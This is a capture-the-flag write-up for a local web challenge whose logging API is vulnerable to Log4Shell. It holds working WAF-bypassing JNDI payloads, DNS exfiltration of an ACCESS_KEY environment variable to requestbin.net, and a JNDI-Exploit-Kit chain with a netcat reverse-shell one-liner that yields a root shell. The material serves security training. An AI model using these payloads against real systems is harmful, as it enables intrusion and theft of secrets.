


# WEB - (not so) smart API (write-up)

## Context / text for challengers

You are mandated by Smart Transport & Logistics to test the latest API for their web service.
One of these API points is used to obtain the access code to a storage facility. Recently, several thefts have occurred in this storage facility.

Discover the method used and get the access code to the warehouse (the flag).

Note: It is not necessary to have remote command execution to get the flag.

## Challenge Write-up

### Discovery of API endpoint

The root of the webservice lead to a `Whitelabel` error :


Then, we perfom directories and files enumeration with `dirsearch`:
```bash
$ python3 ~/tools/dirsearch/dirsearch.py -u http://127.0.0.1/

  _|. _ _  _  _  _ _|_    v0.4.2.1                                                           
 (_||| _) (/_(_|| (_| )                                                                      
                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11305

Output File: /home/kali/tools/dirsearch/reports/127.0.0.1/-_22-06-17_14-10-47.txt

Log File: /home/kali/tools/dirsearch/logs/last_scan.log

Target: http://127.0.0.1/

[14:10:47] Starting:                                                                         
[14:10:58] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:10:59] 400 -  435B  - /a%5c.aspx                                        
[14:11:09] 200 -   24B  - /api/                                             
[14:11:09] 200 -    2KB - /api/swagger.json                                 
[14:11:19] 500 -   73B  - /error                                            
[14:11:19] 500 -   73B  - /error/                                           
                                                                             
Task Completed
```

We discovered the API path and a swagger file describing the endpoints:
- /api/facility : return the acccess code to storage facility, this is what we want to solve the challenge, but according to swagger file, endpoint is protected with a API key. We still learn that the password is stored in `ACCESS_KEY` environnment variable and should be provide in `X-API-Key` header;
- /api/check : check identity based on surname et name.

### Identify the vulnerability

We test to send correct data to /api/check endpoint :
```
$ curl 127.0.0.1:80/api/check -X POST --data "prenom=test&nom=test"
Your are not wanted by Interpol, but just in case we will Log your identity
```

They **Log** the user input, let's try Log4Shell!

To detect Log4Shell, we use the dns URI and the site https://requestbin.net/ to log DNS request.

```bash
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${jndi:dns://detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
Attack detected!
```

A sort of WAF or filtering is blocking our request, we can bypass it : `curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//detect.8t10tjgitagq8j87.b.requestbin.net}&nom=test'`

Our DNS endpoint give us a respond:



### Exploit Log4Shell - Method 1

This first method does not require the usage of LDAP URI, so the challengers wont need to expose a LDAP and Web server to exploit it. Only a DNS endpoint, like for the detection part, is needed. DNS protocol should be allow in output for the app.

We use DNS URI and `${env:ENV_VAR}` to exfiltrate environnement variable `ACCESS_KEY` like describe in `swagger.json`, then reuse the obtained password in base 64 in `X-API-key` to obtain the flag!

```bash
# DNS endpoint receive the value of the environnement variable ACCESS_KEY
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:d${lower:n}s${env:XXXXUXXX:-:}//${env:ACCESS_KEY}.8t10tjgitagq8j87.b.requestbin.net}&nom=test'
# check result : https://requestbin.net/bins/view/06c4ec51bf8e56cac83dbddb664452e606c5b3ac
# We reuse the access key encoded in base 64 to obtain the password:
$ curl 127.0.0.1:80/api/facility -H 'X-API-Key: TEVfQ09OVEVYVEVfRVNUX0lOVEVSRVNTQU5U'
Here is you flight number, enjoy your trip : ECW{Il_000_faudra_changer_ce_flag}
```

### Exploit Log4Shell - Method 2

This second method is a using the Log4Shell vulnerability to obtain remote command execution on the system. Prerequire for this 2nd method is to expose at least 3 ports witch the vulnerable application can reach:
- TCP/1389 : port used by the JNDI-Exploit-kit to expose the ldap server
- TCP/8180 : port used by the JNDI-Exploit-kit to expose the web server
- TCP/xxxx : any port for the reverse connection

Use https://github.com/pimps/JNDI-Exploit-Kit to exploit

```bash
# dl exploit
$ git clone https://github.com/pimps/JNDI-Exploit-Kit.git
# Start JNDI-Exploiy-Kit to have a server and getting return from app (dumy command for test)
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'id > /tmp/was_here'
# test
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/a}&nom=test'
# getting Java version
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/${java:version}}&nom=test'
# result in the JNDI-Exploit-Kit server :
2022-06-21 13:54:06 [LDAPSERVER] >> Reference that matches the name(Java version 1.8.0_181) is not found.
```

We want code execution but the JNDI-Exploit-Kit is using `/bin/bash` binary, but the vulnerable appplication use only `/bin/sh`. So we need to modify the exploit to make the `-C` option working:
```java
//Transformers.java, ligne 125
        	mv.visitLdcInsn("/bin/bash"); // /bin/bash -> /bin/sh
```

Then recompile the exploit:
```bash
# Install maven before
sudo apt -y install maven
# compile
cd JNDI-Injection-Exploit
mvn clean package -DskipTests
```

Finaly exploit the app to execute command on system:
```bash
# Setup listener
$ nc -lnvp 9001             
listening on [any] 9001 ...
# Start JNDI-Exploit-Kit to exec a reverse shell
$ cd JNDI-Exploit-Kit
$ java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.0.1 9001 >/tmp/f'
```

Find the JNDI link macthing our correct JDK version (here 1.8):



```bash
# Send payload to app according (modif)
$ curl 127.0.0.1:80/api/check -X POST --data 'prenom=${${lower:j}ndi:ld${lower:a}p${env:XXXXUXXX:-:}//172.17.0.1:1389/sxlrgt}&nom=test'
# From the reverse shell terminal : 
listening on [any] 9001 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43749
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # ls
app
bin
dev
etc
flag.txt
...
/ # cat flag.txt
ECW{XXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
